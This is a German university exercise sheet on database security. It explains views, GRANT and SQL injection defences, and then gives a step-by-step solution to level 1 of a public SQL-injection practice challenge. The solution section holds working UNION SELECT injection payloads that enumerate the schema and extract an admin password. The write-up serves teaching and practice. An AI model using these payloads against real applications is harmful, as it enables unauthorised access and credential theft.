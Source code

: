 # Exercises DS : Datensicherheit

[ILIAS Dokument](https://elearning.hslu.ch/ilias/goto.php?target=file_3706953_download)

Gruppe 04 - Timo Furrer, David Staub, Dominik Waldispühl

## 1. Selbststudium

### Was heisst Datensicherheit?

> Als Datensicherheit oder globaler noch Informationssicherheit bezeichnet man die Eigenschaften von IT-Systemen die die Vertraulichkeit, Verfügbarkeit und die Integrität der Informationen sicherstellen. Die Informationen werden dabei eingeschränkt (Vertraulichkeit) überprüfbar gemacht (Integrität) und mehrfach abgespeichert (Verfügbarkeit).

Quelle : https://www.mastertools.ch/blog/posts/2013/september/datensicherheit-vs-datenschutz/

### Welche Rolle spielen Sichten für die Datensicherheit?

Über die Sichten (engl. "Views") können für Verschiedene Nutzergruppen, respektive Nutzer, seperate Zugriffsberechtigungen auf die Daten gegeben werden. Ein Datenanalyst benötigt zum Beispiel lediglich nicht-personenbezogene Daten, somit kann die Tabelle mit den sensitiven Daten ausgeblendet werden in der View. Für einen Buchhalter sind aber genau diese Informationen am wichtigstens, deswegen kann ihm eine andere View zugeteilt werden, mit unterschiedlichen Rechten.

### Was heisst Grant? Was heisst Grant Option?

"Grant", zu Deutsch "gewähren", ist ein Keyword, mit welchem man Nutzern gewisse Berechtigungen auf eine Tabelle oder View zuweisen oder entfernen kann.

Wenn dem Keyword "Grant" noch das Keyword "Option" hinzugefügt wird, kann man die Rechtevergabe für das spezifische Privleg weiterreichen. Somit kann der neu gewährte User ebenfalls dieses Privileg an weitere Nutzer gewähren.

### Was ist SQL-Injection? Wie schützt man sich davor?

Bei SQL-Injection handelt es sich um eine gewollte Injektion von Code/Scripts bei Eingabemasken, um Daten zu verändern/löschen/erstellen. Typischerweise wird hier gewollt der Text der Eingabemaske "beendet" um danach SQL Statements zu schreiben, welche dann Daten herausholen, auf der Datenbank löschen oder verändert werden.

Da der Eingabetext potenziell immer ausführbaren SQL-Code enthalten könnte, sollte man die SQL-Statement-Generierung bewusst im Vorhinein kompilieren, und dann den Eingabetext als Parameter einfügen. Dies geht auf der Client-Seite mit "Prepared Statements" und auf der DB-Server-Seite mit "Stored Procedures".

## 2. Views und Grants

-> Gegeben ist die Ausgangslage in der Beispieldatenbank Uni auf ihrem lokalen MySQL Server. Die Professoren dürfen jeweils nur die Vorlesungen verändern (update, delete, insert), die von Kollegen mit dem gleichen Rang durchgeführt (gelesenVon) werden. Alle Professoren dürfen die Vorlesungen der Kollegen mit gleichem Rang abfragen (select). Zudem dürfen Professoren mit Rang C4 die Vorlesungen der Kollegen mit Rang C3 abfragen, aber nicht umgekehrt.



### Erstellen Sie pro Professor ein Benutzer mit gleichem Benutzernamen. Wählen Sie als Passwort ‚@‘ plus den Namen.



### Erstellen Sie zwei (änderbare) Sichten (updateable views), zusammen mit den entsprechenden Rechtevergaben, welche diese Anforderungen erfüllen:

* Alle Professoren mit Rang C4 sollen das Recht SELECT, INSERT, UPDATE und DELETE auf die View view_c4 kriegen.
* Zudem sollen Professoren mit Rang C4 das Recht SELECT auf die View view_c3 erhalten.
* Alle Professoren mit Rang C3 sollen das Recht SELECT, INSERT, UPDATE und DELETE auf die View view_c3 kriegen.

## 3. SQL Injection

-> Lösen Sie das Level 1 des SQL-Injection Hackits von gehaxelt: http://hackit.gehaxelt.in

Dokumentieren Sie Ihr Vorgehen und ihre Lösung möglichst genau und nachvollziehbar.

### Dokumentation der Lösung

Beim starten des ersten Levels wird im unteren Bereich der Fehler ` Fehler: Parameter 'id' ist nicht gesetzt. ` ausgegeben. Dies deuted darauf hin, dass in der URL der Parameter `id` fehlt. 

Sobald man den Parameter in die URL einfügt, kommt der nächste Hinweis. Zahlen von 1-3 ergeben verschiedene Usernamen
>`http://hackit.gehaxelt.in/sqli/level1.php?id=1`

* (1) Der Username lautet: adminer 
* (2) Der Username lautet: rooter 
* (3) Der Username lautet: test 

Über einen UNION SELECT wird dann probiert herauszufinden wieviele Spalten die Tabelle hat, aus welcher die Benutzer gelesen werden. Für dies musste die Spaltenanzahl stetig erhöht werden und die AND Bedingung muss falsch sein (in diesem fall 1=5 was false ist). Dann 

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,2,3,4,5`

>  Der Username lautet: 2 

Jetzt weiss man dass die Spaltenanzahl 5 ist und dass man beim UNION SELECT die 2 durch andere Funktionen ersetzen kann, um dann mehr Infos zu erhalten, welche dann ausgegeben werden. Ziel wäre es jetzt, an den Tabellennamen von den Benutzern zu kommen, um das Passwort auslesen zu können. Um an das Schema heranzukommen, benötigen wir den Namen der DB, dazu versuchen wir folgendes:

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,database(),3,4,5`

>  Der Username lautet: level_1_jkjashd 

Den Datenbanknamen haben wir jetzt, dann kann das Schema ausgelesen werden:

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,table_name,3,4,5 from information_schema.tables where table_schema='level_1_jkjashd'`

> Der Username lautet: user 

Jetzt müssen die Columns herausgefunden werden (LIMIT 0,1-- inkrementieren):

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,column_name,3,4,5 from information_schema.columns where table_schema='level_1_jkjashd' and table_name='user' LIMIT 0,1--`

>* (LIMIT 0,1--) Der Username lautet: id 
>* (LIMIT 1,1--) Der Username lautet: username 
>* (LIMIT 2,1--) Der Username lautet: passwort 
>* (LIMIT 3,1--) Der Username lautet: email 
>* (LIMIT 4,1--) Der Username lautet: admin 

Zuletzt kann man nun das Passwort auslesen

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,passwort,3,4,5 from level_1_jkjashd.user LIMIT 0,1--`

>  Der Username lautet: me_as_a_admin 

Das Passwort des Admins lautet also `me_as_a_admin`

